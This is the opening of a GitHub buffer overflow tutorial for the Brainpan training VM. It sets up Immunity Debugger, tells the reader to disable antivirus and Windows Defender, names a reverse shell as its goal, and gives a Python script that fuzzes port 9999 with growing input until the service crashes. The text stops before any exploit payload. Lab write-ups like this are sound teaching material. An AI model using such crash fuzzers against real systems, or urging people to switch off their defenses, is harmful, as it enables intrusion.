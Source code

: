 # BufferOverflowGuide


## Hii..! Hackers Welcome 

### Brainpan is a vulnerable virtual machine designed for New students who are intrested to learn bufferoverflow or who are going to answer the oscp Examination. So in this github Page i will going show you how to exploit brainpan.exe. Well i will not going to start from the begnning like scanning the brainpan machine as i have already scaned the Machine and found Brainpan.exe in /bin path at port 10000 which was of python http server 



>***Requiments :- Immunity Debugger , VirtualBox in Windows7.***



### As i was facing some issue with my windows7 machine i use my host machine to exploit this brainpan.exe file 



>***Aim :- Exploiting BrainPan.exe and gaining Reverse Shell Access***



***NOTE :- Make sure that You Trun Off Your Anitvirus and Windows defender*** 

## Open Immunity Debugger in Administrator Mode and click on file >> open >> and select the brainpan.exe file! then click on the paly button so that the brainpan.exe is in running mode



![base1](https://user-images.githubusercontent.com/102399357/232192974-d27a2cdc-ba1c-469e-9147-792f0c30cdad.PNG)

### Then the .exe will start Running on the Host With Port Number 9999

![runnning](https://user-images.githubusercontent.com/102399357/232191959-ab9db141-5b4f-4e98-a922-214048c3bbd5.PNG)


### As we Now know that the .exe is serving on port 9999 now let us Fuzz the input of the brainpan.exe 

***What is Fuzzing ? <br />
In programming and software development, fuzzing or fuzz testing is an automated software testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program. The program is then monitored for exceptions such as crashes, failing built-in code assertions, or potential memory leaks. Typically, fuzzers are used to test programs that take structured inputs <br /> (Shameless copied from Wikipedia)*** 



## Step 1 Fuzzing <br />
### The Following Python Script is Useed to Fuzz The brainpan.exe service <br />

```python
import socket
import sys
import time

IP="192.168.94.131"

i=100
while True:
	try:
		with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as c:
			c.settimeout(5)
			c.connect((IP,9999))
			c.recv(9999999)
			string="A"*i
			c.send(bytes(string+" \r\n",'utf-8'))
			print("[+]"+str(i)+" Bytes Sent..!")
			time.sleep(1)
			c.recv(9999999)

	except:
		print("[!]Crashed at "+str(i)+" Bytes")
		sys.exit(0)
	i=i+100
```

